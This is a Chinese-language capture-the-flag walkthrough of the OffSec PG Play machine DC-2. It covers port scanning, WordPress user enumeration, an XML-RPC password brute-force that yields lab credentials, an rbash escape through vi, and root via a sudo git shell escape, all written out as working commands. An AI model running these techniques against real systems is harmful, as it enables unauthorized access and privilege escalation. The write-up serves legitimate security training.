

###### tags: `Offsec` `PG Play` `Easy` `Linux`

# DC-2
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.220.194 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.220.194:80
Open 192.168.220.194:7744

PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     syn-ack ttl 61 OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAMT3xv0ReIK733JHqB5o5t1Knur7MHfTeYoqdn2fxpfdk79iDYAD46e/C1hLs6R0CH1fSWfpJ0x45g77ZaEn/nOaR2UXiod20R6kyrAPyL4UELizECoJ9MdHSULedr0+4QcXhtUZ+4b76umJhENpOhH+vZjrjMI5uZo+EMjlylxFAAAAFQDzg8StOWpV7J5ZjSfIdcddFgqB/QAAAIA84WMMKmOEkvzgQZLuW5lTTecIrk+UXJyWVZSZFxvFbnt5mUvEzPBMqPZIo1h1dkzpEp1Xpk9Vb16LMrQcS6LgH8yhlo5402lUCfP6onxVNvGvP5uhLoQVjzPd65ZKJ7J1VSoz9xOmPkWr2HFuCf6XOBXy8WCxqZxWYTYERTuexgAAAIAI8DjfDmIjv0jUBAPZu0crpPoxvK4ZvdEy6UbfjK+pZYzkd6qnVLdWrvP9evbWaA5VoDZjWp1301VjX8Y1pqHFVaRUu3OBY7DgidJXA3zLd1BSdPzYfRJSZ1/xN75Yo13wW6XIEsy1kvUNOwA0Nm6zmcQ+SN/aBITwGOIBGrp06w==
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC92AIbO8wDuOXLMCrnJkTKDLxXzpwFY0EI4urz6cZpmOjGOZYbWz6Ele1sM3WXEWmOWkszLrMbVEFmuYan545oIHnylYX6ZY+eMPjJBRH/VDukRsNtAA8VRsvIkfCtcG5J9zAQTQDYYprEJljKPYavf4bIW3NZb0v57O01tGylLh23ZSfGpTmQXx+GsWet9vnbCr1+bzf/QeZ7PNK9BeBsLJsvWgLQmuaTdBYeW1b415xOaszWrutHQoaBdud/SPX1Uvy2PNFUfKIPjdbmAdRxTAvRHHaMTRdrvEhdJWz3wmefXr9e3S3YEu05USTqhMwi6OBxeqkjc+6mdR/PYR9
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE329BkKjKxz7Y23cZSshQ76Ge3DFsJsTO89pgaInzX6w5G3h6hU3xDVMD8G8BsW3V0CwXWt1fTnT3bUc+JhdcE=
|   256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGyWHwWC3fLufEnM1R2zsvjMZ1TovPCp3mky/2s+wXTH
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

先將`http://dc-2/`加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo nano /etc/hosts 

192.168.220.194 dc-2
```

查看`flag`頁面`http://dc-2/index.php/flag/`



他說要用`cewl`變字典檔
```
┌──(kali㉿kali)-[~/pgplay]
└─$ cewl -w pass.txt http://dc-2/ 
```

先用`wpscan`列舉
```
┌──(kali㉿kali)-[~/pgplay]
└─$ wpscan --url http://dc-2/ -e u,t,ap,cb,dbe    
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.220.194]
[+] Started: Mon Oct  7 23:14:49 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:10 <============================================================> (400 / 400) 100.00% Time: 00:00:10
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentyfifteen
 | Location: http://dc-2/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://dc-2/wp-content/themes/twentyfifteen/style.css
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://dc-2/wp-content/themes/twentyfifteen/, status: 500
 |
 | Version: 1.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyfifteen/style.css, Match: 'Version: 1.7'

[+] twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 1.2'

[+] twentysixteen
 | Location: http://dc-2/wp-content/themes/twentysixteen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://dc-2/wp-content/themes/twentysixteen/style.css
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://dc-2/wp-content/themes/twentysixteen/, status: 500
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentysixteen/style.css, Match: 'Version: 1.3'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <=============================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:02 <===================================================================> (75 / 75) 100.00% Time: 00:00:02

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

發現有`admin` `jerry` `tom`的user，把它做成`user.txt`，再用`wpscan`爆破
```
┌──(kali㉿kali)-[~/pgplay]
└─$ cat user.txt         
admin
jerry
tom

┌──(kali㉿kali)-[~/pgplay]
└─$ wpscan --url http://dc-2/ --usernames user.txt -P pass.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.220.194]
[+] Started: Mon Oct  7 23:21:28 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=========================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 3 user/s
Trying jerry / wrap Time: 00:00:08 <> (60 /                                           > (59 / 714)  8.26%  ETA: 00:01:32[SUCCESS] - jerry / adipiscing                                                                                          
[SUCCESS] - tom / parturient                                                                                            
Trying admin / log Time: 00:01:41 <===========================                      > (646 / 1121) 57.62%  ETA: ??:??:??
                                                                                                                        
[!] Valid Combinations Found:                                                                                           
 | Username: jerry, Password: adipiscing                                                                                
 | Username: tom, Password: parturient
```

得到`jerry`密碼`adipiscing`，跟`tom`密碼`parturient`，利用`tom`帳號登入後，發現是`rbash`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh -p 7744 tom@192.168.220.194                     
tom@192.168.220.194's password: parturient

tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

先用`compgen -c`查看有什麼指令可以用，發現可以用`vi`
一樣查看[GTFOBins](https://gtfobins.github.io/gtfobins/vi/#shell)
使用完可在`/home/tom`得local.txt
```
tom@DC-2:~$ compgen -c
...
wait
less
scp
ls
vi

tom@DC-2:~$ vi
:set shell=/bin/sh
:shell

$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$ ls
flag3.txt  local.txt  usr
$ cat local.txt
59e24a28b94897da3506ec01532fd3c4
```

可以切成`jerry`，查看`sudo -l`
```
$ su jerry
Password: adipiscing

jerry@DC-2:/tmp$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

查看[GTFOBins](https://gtfobins.github.io/gtfobins/git/#sudo)，用他之後得root，在/root得proof.txt
```
jerry@DC-2:/tmp$ sudo /usr/bin/git -p help config
!/bin/sh
# whoami
root
# cd /root
# ls
final-flag.txt  proof.txt
# cat proof.txt
c4627814d3562a986c2f9ec8f78a3fb4
```

